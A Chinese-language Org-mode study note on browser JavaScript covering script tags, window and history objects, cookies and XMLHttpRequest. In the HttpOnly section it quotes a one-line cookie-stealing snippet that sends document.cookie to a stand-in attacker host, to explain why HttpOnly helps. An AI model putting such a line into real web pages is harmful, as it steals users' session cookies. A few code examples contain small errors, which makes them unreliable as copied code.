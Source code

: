 #+TITLE:       JavaScript笔记--浏览器环境
#+AUTHOR:      Pinvon
#+EMAIL:       pinvon@Inspiron
#+DATE:        2018-03-19 一
#+URI:         /blog/%y/%m/%d/javascript笔记--浏览器环境概述
#+KEYWORDS:    <TODO: insert your keywords here>
#+TAGS:        Web
#+LANGUAGE:    en
#+OPTIONS:     H:3 num:nil toc:t \n:nil ::t |:t ^:nil -:nil f:t *:t <:t
#+DESCRIPTION: <TODO: insert your description here>

* 浏览器环境概述

** JavaScript代码嵌入网页的方法

- <script>标签: 代码嵌入网页
- <script>标签: 加载外部脚本
- 事件属性: 代码写入HTML元素的事件处理属性, 如 =onclick= 或 =onmouseover=
- URL协议: URL支持以 =javascript:= 协议的方式, 执行JavaScript代码

*** <script>标签: 代码嵌入网页

#+BEGIN_SRC JavaScript
<script type="application/javascript">
	console.log('hello world');
</script>
#+END_SRC
其中, =type= 属性用来指定脚本类型, 默认为JavaScript, 因此可以不写.

如果 =type= 值是浏览器不认识的, 则脚本不会执行.

*** <script>标签: 加载外部脚本

#+BEGIN_SRC HTML
<script src="example.js"></script>
#+END_SRC

如果脚本文件使用了非英语字符, 还要注明编码.
#+BEGIN_SRC HTML
<script charset="utf-8" src="example.js"></script>
#+END_SRC

加载外部脚本和直接添加代码块, 这两种方法不能混用.

*** 事件属性

#+BEGIN_SRC HTML
<div onclick="alert('Hello')"></div>
#+END_SRC

*** URL协议

URL支持 =javascript:= 协议, 调用这个URL时, 就会执行JavaScript代码.
#+BEGIN_SRC HTML
<a href="javascript:alert('Hello')"></a>
#+END_SRC

** <script>标签

*** <script>位置

一般放在页面底部, 因为如果脚本是外部加载的, 网络情况不好时会加载很长时间, 而加载外部脚本时, 浏览器会暂停页面的渲染, 因为JavaScript可以修改DOM, 必须把控制权给它, 否则会导致复杂的线程竞赛问题. 先加载页面再加载JavaScript, 可以让用户不必对着空白的页面. 且放在末尾, DOM结构肯定已经生成, 不存在线程竞赛问题.

#+BEGIN_SRC HTML
<head>
  <script>
    console.log(document.body.innerHTML);
  </script>
</head>
<body>
</body>
#+END_SRC
上面的代码一定会报错, 因为 =document.body= 元素还没生成.

解决办法:

回调:
#+BEGIN_SRC HTML
<head>
  <script>
    document.addEventListener(
      'DOMContentLoaded',
      function (event) {
        console.log(document.body.innerHTML);
      }
    );
  </script>
</head>
#+END_SRC

或使用<script>的 =onload= 属性, 当<script>标签指定的外部脚本文件下载和解析完成时, 会触发一个load事件, 可以把所需执行的代码, 放在这个事件的回调函数里面.
#+BEGIN_SRC HTML
<script src="jquery.min.js" onload="console.log(document.body.innerHTML)">
</script>
#+END_SRC

*** defer属性

=defer= 属性可以推迟 =外部JavaScript= 的下载, 解决脚本文件下载阻塞网页渲染的问题.

不能和 =document.write()= 共用.

*** async属性

作用同上, 但是是使用另一个进程来下载脚本. 两个属性同时存在时, =async= 优先.

但是, 该属性不能保证脚本的执行顺序. 所以并不是说它可以完全替代 =defer=.

*** 脚本的动态加载

*** 加载脚本时使用的协议

#+BEGIN_SRC HTML
<script src="example.js"></script>
<script src="https://example.js"></script>
<script src="//example.js"></script>  // 根据页面本身的协议来决定加载协议
#+END_SRC

** 浏览器

为了节省开销, 尽量避免重流和重绘. 技巧:
- 读取DOM或者写入DOM，尽量写在一起，不要混杂
- 缓存DOM信息
- 不要一项一项地改变样式，而是使用CSS class一次性改变样式
- 使用document fragment操作DOM
- 动画时使用absolute定位或fixed定位，这样可以减少对其他元素的影响
- 只在必要时才显示元素
- 使用window.requestAnimationFrame()，因为它可以把代码推迟到下一次重流时执行，而不是立即要求页面重流
- 使用虚拟DOM（virtual DOM）库

* window对象

** 概述

=window= 对象是指当前的浏览器窗口, 是所有对象的顶层对象. JavaScript规定, 浏览器环境的所有全局变量, 都是 =window= 对象的属性.
#+BEGIN_SRC JavaScript
var a = 1;
window.a // 1
#+END_SRC

** window对象的属性

- window.window: 与this等价
- window.name: 当前浏览器窗口的名字
- window.location: 当前窗口的URL信息
- window.closed: 窗口是否关闭
- window.opener: 返回打开当前窗口的父窗口, 如果没有父窗口, 则返回 =null=
- window.frames: 返回一个类似数组的对象, 成员为页面内所有框架窗口
- window.length: 返回当前网页包含的框架总数. window.frames.length === window.length
- window.screenX, window.screenY: 返回浏览器窗口左上角相对于当前屏幕左上角的水平距离和垂直距离
- window.innerHeight, window.innerWidth: 返回网页在当前窗口中可见部分的调试和宽度, 即"视口", 当用户放大或缩小网页时, 该属性会变
- window.outerHeight, window.outerWidth: 返回浏览器窗口的高度和宽度
- window.pageXOffset, window.pageYOffset: 返回页面的水平/垂直滚动距离

** navigator对象

=window.navigator= 指向一个包含浏览器信息的对象.

navigator.userAgent: 返回浏览器的User-Agent字符串, 标示浏览器的厂商和版本信息. 可以大致识别手机浏览器, 方法是测试是否包含 =mobi|android|touch|mini= 字符串.

navigator.plugins: 返回一个类似数组的对象, 成员是浏览器安装的插件.

navigator.platform: 返回用户的OS信息.

navigator.onLine: 返回用户当前在线还是离线.

navigator.geolocation: 返回的信息包含用户地理位置的信息.

navigator.cookieEnabled: 返回布尔值, 表示浏览器是否能储存Cookie.

** window.screen对象

screen.height, screen.width: 返回设备分辨率
screen.availHeight, screen.availWidth: 返回屏幕可用的高度和宽度
screen.colorDepth: 返回屏幕的颜色深度

** window对象的方法

window.moveTo(): 移动浏览器窗口到指定位置(该位置相对于屏幕左上角)
window.moveBy(): 移动窗口到一个相对位置(该位置相对于窗口左上角)
window.scrollTo(): 将网页的指定位置, 滚动到浏览器左上角(该位置相对于整张网页)
window.scrollBy(): 将网页向右, 向下滚动
window.open(): 新建窗口, 很多浏览器默认不允许脚本自动新建窗口, 因此需要检查是否新建成功 if( null === window.open(...) )
window.print(): 跳出打印对话框
window.getComputedStyle(): 接收一个HTML元素为参数, 返回一个包含该HTML元素的最终样式信息的对象
window.focus(): 激活指定当前窗口
window.getSelection(): 返回一个Selection对象, 表示用户现在选中的文本, toString()可转成字符串

** 多窗口操作

window.top: 顶层窗口
window.parent: 父窗口
window.self: 当前窗口
parent.history.back(): 让父窗口的访问历史后退一次

还有一些变量与上面的变量对象的, 提供给 =open()=, =<a>标签=, =<form>标签= 等引用.
_top: 顶层窗口
_parent: 父窗口
_blank: 新窗口
#+BEGIN_SRC 
<a href="somepage.html" target="_top">Link</a>
#+END_SRC

*** iframe标签

对于 =iframe= 嵌入的窗口, =document.getElementById()= 可以拿到该窗口的DOM节点, 然后使用 =contentWindow= 属性获得 =iframe= 节点包含的 =window= 对象, 使用 =contentDocument= 属性获得包含的 =document= 对象.

只有当父页面与 =iframe= 页面来自同一个域名, 两者之间才可以用脚本通信, 否则只能使用 =window.postMessage()=.

*** frames属性

=window= 对象的 =frames= 属性返回一个类似数组的对象, 成员是所有子窗口的 =window= 对象, 可以使用这个属性, 实现窗口之间的互相引用.

** 事件

*** load事件和onload属性

=load= 事件发生在文档在浏览器窗口加载完毕时, =window.onload= 属性可以指定这个事件的回调函数.
#+BEGIN_SRC JavaScript
window.onload = function() {
  var elements = document.getElementsByClassName('example');
  for (var i = 0; i < elements.length; i++) {
    var elt = elements[i];
    // ...
  }
};
#+END_SRC

** 弹框

alert(): 只有"确定"按钮, 一般用来通知用户某些信息.
prompt(): 可以让用户输入信息, 有"确定"和"取消"按钮.
confirm(): 有"确定"和"取消"按钮, 一般用来征询用户的意见.

* history对象

=window= 有一个 =history= 对象, 用来保存浏览历史.
history.length: 当前窗口访问的网址数
history.back(): 返回
history.forward(): 前进
history.go(): 移动到指定的页面. history.go(-1)相当于后退一步, history.go(1) 相当于history.forward()

返回上一页时, 页面通常是从浏览器缓存中加载, 而不是要求服务器发送新的网页.

** history.pushState()

该方法可以添加历史记录. 新加的历史记录必须与当前网址处于同一个域.

** history.replaceState()

该方法可以修改历史记录, 将当前的网址修改成另一个网址, 但必须与当前网址处于同一个域.

** history.state属性

返回当前页面的 =state= 对象.

如 www.example.com/page=1, state对象就是 page=1.

** popstate事件

当同一个窗口的history对象发生变化时, 就会触发该事件.

但是, 仅仅调用 =pushState()= 或 =replaceState()= 并不会触发该事件, 只有点击了浏览器的后退或前进按钮, 或调用了 =back(), forward(), go()= 时, 都会触发该事件.

页面第一次加载时, 不会触发该事件.

* Cookie

=Cookie= 是服务器保存在浏览器上的一小段文本信息, 大小不超过4KB, 每次浏览器向服务器发出请求, 都会自动附上这段信息.

作用: 分辨两个请求是否来自同一浏览器; 保存信息.

适用场景: 保存登录, 购物车等需要记录的信息, 保存用户的偏好设置, 记录和分析用户行为.

不推荐用Cookie作为客户端的存储, 因为它的容量只有 4KB, 推荐使用Web storage API和IndexedDB.

Cookie包含的信息: 名字, 值, 到期时间, 所属域名(默认当前域名), 生效路径(默认当前网址)

如, 用户访问网址 www.example.com, 服务器向浏览器写入一个 Cookie(浏览器可以拒绝接受). 这个 Cookie 就会包含 www.example.com 这个域名以及根路径 /. 意思是这个Cookie对该域名的根路径和它的所有子路径都有效. 如果路径设为 /forums, 那么这个 Cookie 只有在访问 www.example.com/forums 及其子路径时才有效. 以后, 浏览器一旦访问这个路径, 浏览器就会附上这段 Cookie 发送给服务器.

window.navigator.cookieEnabled: 浏览器是否接受 Cookie
document.cookie: 当前网页的 Cookie

如果单个域名的 Cookie 超过了 4KB, 则超出部分将被忽略.

浏览器的同源政策: 如果两个网址域名和端口相同, 就可以共享本地的 Cookie. 所以 http://example.com 可以读取 https://example.com 的 Cookie.

** Cookie 与 HTTP 协议

Cookie 由 HTTP 协议生成, 为 HTTP 协议服务.

*** 生成 Cookie

如果服务器想在浏览器保存 Cookie, 要在 HTTP 响应的信息头中, 加入 Set-Cookie 字段:
#+BEGIN_SRC JavaScript
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
#+END_SRC
这表示生成了两个 Cookie(每个浏览器为单个域名的 Cookie 数量和大小限制不同, 一般是不能超过 30 个 Cookie, 每个大小不超过 4KB), 第 1 个 Cookie 名为 yummy_cookie, 值为 choco.

除了 Cookie 名称之外, 我们还可以设置许多其他属性.

** Cookie 的属性

*** Expires, Max-Age

Expires: 指定 Cookie 的到期时间, 到期后浏览器不再保留该 Cookie; 它的值是 UTC 格式, 可以使用 Date.prototype.toUTCString() 进行格式转换. 注意, 这个时间以浏览器本地时间为准, 所以服务器不能依赖自己的时间来判断 Cookie 是否过期.

Max-Age: 指定 Cookie 从现在开始可以存在的秒数.

如果使用了 Cookie, 却未设置 Expires 或 Max-Age 属性, 则 Cookie 只在当前会话有效, 如果浏览器窗口关闭, 该 Cookie 就会被删除; 如果同时设置了 Expires 和 Max-Age 属性, 则 Max-Age 优先.

*** Domain, Path

Domain: 指定浏览器发出 HTTP 请求时, 哪些域名要附带这个 Cookie. 如果没有指定, 则浏览器默认将当前 URL 的一级域名作为 Domain 对应的值.

Path: 指定当浏览器发出 HTTP 请求时, 哪些路径要附带这个 Cookie. 如: Path 属性的值是 /, 则 /docs 路径也会包含该 Cookie.

*** Secure, HttpOnly

Secure: 指定浏览器只有在 HTTPS 加密协议下, 才将该 Cookie 发送到服务器.

HttpOnly: 指定该 Cookie 无法通过 JavaScript 脚本获取, 如: Document.cookie, XMLHttpRequest对象, Request API. 这样可以防止该 Cookie 被脚本读到. 只有浏览器发出 HTTP 请求时, 才会带上该 Cookie. 如果未指定该属性, 恶意脚本可以通过类似如下操作, 将当前网页的 Cookie 发到第三方服务器:
#+BEGIN_SRC JavaScript
(new Image()).src="http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
#+END_SRC

*** 实例

#+BEGIN_SRC JavaScript
Set-Cookie: id=a2fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+END_SRC

** 修改 Cookie

如果服务器想要修改一个已经设置过了的 Cookie, 则必须至少匹配: Cookie 的 key, domain, path, secure 四个属性. 如, 原始的 Cookie 内容如下:
#+BEGIN_SRC JavaScript
Set-Cookie: key1=value1; domain=example.com; path=/blog
#+END_SRC

正确的改法:
#+BEGIN_SRC JavaScript
Set-Cookie: key1=value2; domain=example.com; path=/blog
#+END_SRC

错误的改法:
#+BEGIN_SRC JavaScript
Set-Cookie: key1=value2; domain=example.com; path=/
#+END_SRC

由于改错了, 导致又生成了一个新的 Cookie, 所以当下一次访问 example.com/blog 时, 会发送两个 Cookie, 这两个 Cookie 的名称相同:
#+BEGIN_SRC JavaScript
Cookie: key1=value1; key1=value2
#+END_SRC

注意, Cookie 名是 key1, 名有值, 值是 value1, value2.

** document.cookie

如果 Cookie 没有 HttpOnly 属性, 则可以通过 document.cookie 来读写当前网页的 Cookie.

如果当前的网页有 key 分别为 foo 和 baz 的两个 Cookie, 则 document.cookie 会将它们都读取出来:
#+BEGIN_SRC JavaScript
document.cookie  // "foo=bar;baz=bar"
var cookies = document.cookie.split(';');
for (var i=0; i<cookie.length; i++) {
	console.log(cookies[i]);
}
// foo=bar
// baz=bar
#+END_SRC

document.cookie 还可以写入 Cookie:
#+BEGIN_SRC JavaScript
document.cookie = "foo=bar; expires=Fri, 31 Dec 2020 23:59:59 GMT";

// 或者
document.cookie = 'fontSize=14; '
  + 'expires=' + someDate.toGMTString() + '; '
  + 'path=/subdirectory; '
  + 'domain=*.example.com';
#+END_SRC
注意, Cookie 中的 = 两边不能有空格.

** 删除 Cookie

只有一个办法删除 Cookie, 那就是把它的 Expires 属性设为一个过去的日期.

** 发送 Cookie

浏览器向服务器发送 HTTP 请求时, 每个请求都会自动带上相应的 Cookie(如果有的话). 即, 把服务器保存在浏览器的信息又发回给了服务器. 如:
#+BEGIN_SRC JavaScript
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
#+END_SRC
这里发送了两个 Cookie.

* AJAX

** 概述

浏览器与服务器之间采用HTTP协议通信. 1999年, 微软公司首次允许JavaScript脚本向服务器发起HTTP请求. AJAX成为脚本发起HTTP通信的代名词.

AJAX包括以下几个步骤:
- 创建AJAX对象
- 发出HTTP请求
- 接收服务器传回的数据
- 更新网页数据

即: AJAX通过原生的XMLHttpRequest对象发出HTTP请求, 得到服务器返回的数据后, 再进行处理.

AJAX可以是同步请求, 也可以是异步请求, 多数情况下是异步请求, 因为同步会对浏览器有"堵塞效应".

** XMLHttpRequest对象

XMLHttpRequest对象用来在浏览器与服务器之间传送数据.

#+BEGIN_SRC JavaScript
var ajax = new XMLHttpRequest();
ajax.open('GET', 'http://www.example.com/page.php', true);
ajax.onreadystatechange = handleStateChange;  // 指定回调函数监听通信状态(readyState属性)
#+END_SRC
拿到服务器返回的数据, AJAX不会刷新整个网页, 而是只更新相关部分, 从而不打断用户正在做的事情.

XMLHttpRequest对象的典型用法:
#+BEGIN_SRC JavaScript
var xhr = new XMLHttpRequest();

// 指定通信过程中状态改变时的回调函数
xhr.onreadystatechange = function(){
  // 通信成功时，状态值为4
  if (xhr.readyState === 4){
    if (xhr.status === 200){
      console.log(xhr.responseText);
    } else {
      console.error(xhr.statusText);
    }
  }
};

xhr.onerror = function (e) {
  console.error(xhr.statusText);
};

// open方式用于指定HTTP动词、请求的网址、是否异步
xhr.open('GET', '/endpoint', true);

// 发送HTTP请求
xhr.send(null);
#+END_SRC

** XMLHttpRequest的属性

*** readyState

只读, 表示XMLHttpRequest请求当前所处的状态.

- 0: 对应常量UNSENT, 表示XMLHttpRequest实例已经生成, 但是open()方法还没有被调用.
- 1: 对应常量OPENED, 表示send()方法还没有被调用, 仍然可以使用setRequestHeader(), 设定HTTP请求的头信息.
- 2: 对应常量HEADERS_RECEIVED, 表示send()方法已经执行, 并且头信息和状态码已经收到.
- 3: 对应常量LOADING, 表示正在接收服务器传来的body部分的数据, 如果responseType属性是text或者空字符串, responseText就会包含已经收到的部分信息.
- 4: 对应常量DONE, 表示服务器数据已经完全接收, 或者本次接收已经失败了.

*** onreadystatechange

onreadystatechange属性指向一个回调函数, 当readystatechange事件发生的时候, 这个回调函数就会调用, 并且XMLHttpRequest实例的readyState属性也会发生变化.

*** response

只读, 返回接收到的数据体.

*** responseType

指定服务器返回的数据类型.

类型有:
"": 字符串(默认值); 
"arraybuffer"; 
"blob": 适合读取二进制数据, 如图片
"document": 适合返回XML文档的情况
"json";
"text": 适用于大多数情况

#+BEGIN_SRC JavaScript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/path/to/image.png', true);
xhr.responseType = 'blob';

xhr.onload = function(e) {
  if (this.status == 200) {
    var blob = new Blob([this.response], {type: 'image/png'});
    // 或者
    var blob = oReq.response;
  }
};

xhr.send();
#+END_SRC

*** responseText

只读, 返回从服务器接收到的字符串.
#+BEGIN_SRC JavaScript
var data = ajax.responseText;
data = JSON.parse(data);
#+END_SRC

*** responseXML

只读, 返回从服务器接收到的Document对象.

如果本次请求没有成功, 或者数据不完整, 或者不能被解析为XML或HTML, 该属性等于null.

*** status

只读, 返回本次请求所得到的HTTP状态码.

基本上, 只有2xx和304的状态码, 表示服务器返回是正常状态.
#+BEGIN_SRC JavaScript
if (ajax.readyState == 4) {
  if ( (ajax.status >= 200 && ajax.status < 300)
    || (ajax.status == 304) ) {
    // Handle the response.
  } else {
    // Status error!
  }
}
#+END_SRC

*** statusText

与status类似, 但信息类似"200 OK".

*** timeout

timeout属性等于一个整数, 表示多少毫秒后, 如果请求仍然没有得到结果, 就会自动终止. 如果该属性等于0, 就表示没有时间限制.

*** 事件监听接口

XMLHttpRequest第一版只能对 =onreadystatechange= 这一事件指定回调函数. 第二版允许对更多的事件指定回调函数.

onloadstart 请求发出
onprogress 正在发送和加载数据
onabort 请求被中止，比如用户调用了abort()方法
onerror 请求失败
onload 请求成功完成
ontimeout 用户指定的时限到期，请求还未完成
onloadend 请求完成，不管成果或失败

#+BEGIN_SRC JavaScript
xhr.onload = function() {
 var responseText = xhr.responseText;
 console.log(responseText);
 // process the response.
};

xhr.onerror = function() {
  console.log('There was an error!');
};
#+END_SRC

*** withCredentials

withCredentials属性是一个布尔值, 表示跨域请求时, 用户信息（比如Cookie和认证的HTTP头信息）是否会包含在请求之中, 默认为false. 即向example.com发出跨域请求时, 不会发送example.com设置在本机上的Cookie（如果有的话）.

** XMLHttpRequest的方法

*** abort()

用来终止已经发出的HTTP请求.
#+BEGIN_SRC JavaScript
ajax.open('GET', 'http://www.example.com/page.php', true);
var ajaxAbortTimer = setTimeout(function() {
  if (ajax) {
    ajax.abort();
    ajax = null;
  }
}, 5000);
#+END_SRC
发出5s之后终止AJAX请求.

*** getAllResponseHeaders()

返回服务器发来的所有HTTP头信息.

*** getResponseHeader()

返回HTTP头信息指定字段的值.

*** open()

指定发送HTTP请求的参数. 有5个参数:

method：表示HTTP动词，比如“GET”、“POST”、“PUT”和“DELETE”。
url: 表示请求发送的网址。
async: 格式为布尔值，默认为true，表示请求是否为异步。如果设为false，则send()方法只有等到收到服务器返回的结果，才会有返回值。
user：表示用于认证的用户名，默认为空字符串。
password：表示用于认证的密码，默认为空字符串。

*** send()

send方法用于实际发出HTTP请求。如果不带参数，就表示HTTP请求只包含头信息，也就是只有一个URL，典型例子就是GET请求；如果带有参数，就表示除了头信息，还带有包含具体数据的信息体，典型例子就是POST请求。

GET:
#+BEGIN_SRC JavaScript
ajax.open('GET'
  , 'http://www.example.com/somepage.php?id=' + encodeURIComponent(id)
  , true
);

// 等同于
var data = 'id=' + encodeURIComponent(id));
ajax.open('GET', 'http://www.example.com/somepage.php', true);
ajax.send(data);
#+END_SRC

POST:
#+BEGIN_SRC JavaScript
var data = 'email='
  + encodeURIComponent(email)
  + '&password='
  + encodeURIComponent(password);
ajax.open('POST', 'http://www.example.com/somepage.php', true);
ajax.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
ajax.send(data);
#+END_SRC

FormData类型可以用于构造表单数据.
#+BEGIN_SRC JavaScript
var formData = new FormData();

formData.append('username', '张三');
formData.append('email', 'zhangsan@example.com');
formData.append('birthDate', 1940);

var xhr = new XMLHttpRequest();
xhr.open("POST", "/register");
xhr.send(formData);
#+END_SRC

上面的代码构造了一个formData对象，然后使用send方法发送。它的效果与点击下面表单的submit按钮是一样的。

#+BEGIN_SRC JavaScript
<form id='registration' name='registration' action='/register'>
    <input type='text' name='username' value='张三'>
    <input type='email' name='email' value='zhangsan@example.com'>
    <input type='number' name='birthDate' value='1940'>
    <input type='submit' onclick='return sendForm(this.form);'>
</form>
#+END_SRC

FormData也可以由现有表单构造生成。

#+BEGIN_SRC JavaScript
var formElement = document.querySelector("form");
var request = new XMLHttpRequest();
request.open("POST", "submitform.php");
request.send(new FormData(formElement));
#+END_SRC

*** setRequestHeader()

用于设置HTTP头信息。该方法必须在open()之后、send()之前调用。

*** overrideMimeType()

** XMLHttpRequest的事件

*** readyStateChange事件

*** progress事件

上传文件时，XMLHTTPRequest对象的upload属性有一个progress，会不断返回上传的进度。

假定网页上有一个progress元素:
#+BEGIN_SRC HTML
<progress min="0" max="100" value="0">0% complete</progress>
#+END_SRC

文件上传时，对upload属性指定progress事件回调函数，即可获得上传的进度。
#+BEGIN_SRC JavaScript
function upload(blobOrFile) {
  var xhr = new XMLHttpRequest();
  xhr.open('POST', '/server', true);
  xhr.onload = function(e) { ... };

  // Listen to the upload progress.
  var progressBar = document.querySelector('progress');
  xhr.upload.onprogress = function(e) {
    if (e.lengthComputable) {
      progressBar.value = (e.loaded / e.total) * 100;
      progressBar.textContent = progressBar.value; // Fallback for unsupported browsers.
    }
  };

  xhr.send(blobOrFile);
}

upload(new Blob(['hello world'], {type: 'text/plain'}));
#+END_SRC

*** load事件、error事件、abort事件

load事件表示服务器传来的数据接收完毕，error事件表示请求出错，abort事件表示请求被中断。

*** loadend事件

abort、load和error这三个事件，会伴随一个loadend事件，表示请求结束，但不知道其是否成功。

** 文件上传

HTML网页的<form>元素能够以四种格式，向服务器发送数据。

- 使用POST方法，将enctype属性设为application/x-www-form-urlencoded，这是默认方法。
#+BEGIN_SRC JavaScript
<form action="register.php" method="post" onsubmit="AJAXSubmit(this); return false;">
</form>
#+END_SRC

- 使用POST方法，将enctype属性设为text/plain。
#+BEGIN_SRC JavaScript
<form action="register.php" method="post" enctype="text/plain" onsubmit="AJAXSubmit(this); return false;">
</form>
#+END_SRC

- 使用POST方法，将enctype属性设为multipart/form-data。
#+BEGIN_SRC JavaScript
<form action="register.php" method="post" enctype="multipart/form-data" onsubmit="AJAXSubmit(this); return false;">
</form>
#+END_SRC

- 使用GET方法，enctype属性将被忽略。
#+BEGIN_SRC JavaScript
<form action="register.php" method="get" onsubmit="AJAXSubmit(this); return false;">
</form>
#+END_SRC

*** 文件上传

#+BEGIN_SRC HTML
<form id="file-form" action="handler.php" method="POST">
  <input type="file" id="file-select" name="photos[]" multiple/>
  <button type="submit" id="upload-button">上传</button>
</form>
#+END_SRC
file控件的multiple属性，指定可以一次选择多个文件；如果没有这个属性，则一次只能选择一个文件。

把选中的文件添加到表单对象上.
#+BEGIN_SRC JavaScript
var fileSelect = document.getElementById('file-select');
var files = fileSelect.files;
var formData = new FormData();

for (var i = 0; i < files.length; i++) {
  var file = files[i];

  if (!file.type.match('image.*')) {
    continue;
  }

  formData.append('photos[]', file, file.name);
}
#+END_SRC

使用Ajax方法向服务器上传文件:
#+BEGIN_SRC JavaScript
var xhr = new XMLHttpRequest();

xhr.open('POST', 'handler.php', true);

xhr.onload = function () {
  if (xhr.status !== 200) {
    alert('An error occurred!');
  }
};

xhr.send(formData);
#+END_SRC

除了使用FormData接口上传，也可以直接使用File API上传:
#+BEGIN_SRC JavaScript
var file = document.getElementById('test-input').files[0];
var xhr = new XMLHttpRequest();

xhr.open('POST', 'myserver/uploads');
xhr.setRequestHeader('Content-Type', file.type);
xhr.send(file);
#+END_SRC
